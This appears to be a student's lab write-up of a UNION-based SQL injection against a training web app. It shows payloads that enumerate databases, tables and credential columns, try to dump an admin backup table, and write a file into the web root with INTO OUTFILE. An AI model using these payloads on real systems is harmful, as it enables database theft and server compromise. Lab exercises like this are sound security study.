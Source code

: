 # Assessment

Here is the first successful injection results:

>cn' UNION select 1,2,3-- -

With the resulting output:

>Adam 	January 	1337$ 	5%
>James 	March 	1213$ 	8%

I then iterated through another UNION query to find out how many columns were in the table I am accessing:

>cn' UNION SELECT 1,2,3,4,5-- -

Once I determined there were four columns with the above injection, I used \@@version to determine the current version of the database being used:

>cn' UNION SELECT 1,\@@version,3,4,5-- -

This returned:

>10.3.22-MariaDB-1ubuntu1

Then I wanted to determine the current database name using the following query:

>cn' UNION SELECT 1,database(),3,4,5-- -

Which returned:

>ilfreight

Now that I knew the name of the database being used, I decided to determine what other databases were available with the following injection:

>cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -

This returned the following:

>information_schema 	3 	4 	5
>mysql 	3 	4 	5
>performance_schema 	3 	4 	5
>ilfreight 	3 	4 	5
>backup 	3 	4 	5

From here I ruled out the default databases named information_schema, mysql, and performance_schema, and focused on the remaining databases named ilfreight and backup.

Now I decided to discover all the tables within the two databases of interest with the two following statements:

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -

These queries had the following output respectively:

>payment 	ilfreight 	4 	5
>users 	ilfreight 	4 	5

>admin_bk 	backup 	4 	5

Now I determined that I would list all columns of the admin_bk and backup tables from the backup database:

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk'-- -

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='backup'-- -

This generated the following output respectively:

>username 	admin_bk 	backup 	5
>password 	admin_bk 	backup 	5

>(no output)

Now I decided to dump data from a table in another database:

>c' UNION select 1, username, password, 4, 5 from username.backup-- -

>c' UNION select 1, username, password, 4, 5 from password.backup-- -

This returned that the targets did not exist. I decided to try again using admin_bk instead of backup:

>c' UNION select 1, username, password, 4, 5 from password.admin_bk-- -

Similar results. Clearly I have a problem with my database.table part of the query.

When I tried backup.username, this was still incorrect.

I then watched a bit of a youtube vid and tried to use the OUTPUT INTO function to write to the file proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/dashboard/var/www/html/proof.txt'-- -

This did not work because the dashboard directory should be at the end of the directory path to include proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/var/www/html/dashboard/proof.txt'-- -

This returned no output, suggesting that we have successfully written to the file.

I then checked by including /var/www/html/dashboard/proof.txt at the end of my working URL for the site:

>/http://94.237.58.135:59758/dashboard/dashboard.php